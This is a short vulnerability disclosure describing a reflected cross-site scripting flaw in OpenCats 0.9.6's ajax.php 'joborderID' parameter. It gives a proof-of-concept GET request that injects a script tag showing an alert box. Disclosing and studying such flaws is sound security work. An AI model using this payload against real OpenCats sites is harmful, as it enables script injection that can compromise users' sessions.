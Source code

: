 # Cross Site Scripting vulnerability in the OpenCats 'joborderID'.

OpenCats version 0.9.6 PHP7.2 suffers from reflected XSS vulnerability. 
This allows attackers arbitrary JavaScript injection, which compromises secure session between client and server.

### PoC

```
GET /ajax.php?f=getPipelineJobOrder&joborderID=1)"></a> <script>alert`xss`</script>&page=0&entriesPerPage=1&sortBy=dateCreatedInt&sortDirection=desc&indexFile=index.php&isPopup=0
```

![XSS3](https://user-images.githubusercontent.com/57464251/192360983-8b894daa-c070-4fe2-ac7d-28a29b22de97.png)
